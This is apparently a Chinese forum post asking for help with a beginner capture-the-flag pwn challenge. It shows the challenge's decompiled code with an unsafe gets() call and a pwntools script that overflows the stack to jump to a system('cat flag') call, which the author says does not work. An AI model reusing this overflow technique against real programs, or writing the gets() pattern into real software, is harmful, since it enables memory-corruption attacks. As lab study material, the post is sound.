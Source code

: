有这么一道入门题
主函数是这样的
```cpp
__int64 __fastcall main(__int64 a1, char **a2, char **a3)
{
  __int64 result; // rax
  char v4; // [rsp+0h] [rbp-20h]
  unsigned int v5; // [rsp+8h] [rbp-18h]
  unsigned __int64 v6; // [rsp+18h] [rbp-8h]

  v6 = __readfsqword(0x28u);
  setbuf(stdin, 0LL);
  setbuf(stdout, 0LL);
  setbuf(stderr, 0LL);
  puts("What's Your Birth?");
  __isoc99_scanf("%d", &v5);
  while ( getchar() != 10 )
    ;
  if ( v5 == 1926 )
  {
    puts("You Cannot Born In 1926!");
    result = 0LL;
  }
  else
  {
    puts("What's Your Name?");
    gets(&v4);//这个地方有溢出漏洞
    printf("You Are Born In %d\n", v5);
    if ( v5 == 1926 )
    {
      puts("You Shall Have Flag.");
      system("cat flag");
    }
    else
    {
      puts("You Are Naive.");
      puts("You Speed One Second Here.");
    }
    result = 0LL;
  }
  return result;
}
```

大多数题解都是直接覆盖掉 v5,确实也没有问题
我尝试覆盖上面的 gets 函数返回值 让它直接跳转到 _system 函数,偏移量应该是没有问题的,但是一直没有成功

我的脚本是
```py
from pwn import *

p=process('./when_did_you_born')

addr=0x0400906
pa='1000'
pay='a'*(0x20+8)+p64(addr)

p.recvuntil('?')
p.sendline(pa)
p.recvuntil('?')
p.sendline(pay)
p.interactive()
```
所以说问题到底在哪儿,请大佬赐教

浪费您的时间真是抱歉
<!--stackedit_data:
eyJoaXN0b3J5IjpbLTUzNTMxMDE5XX0=
-->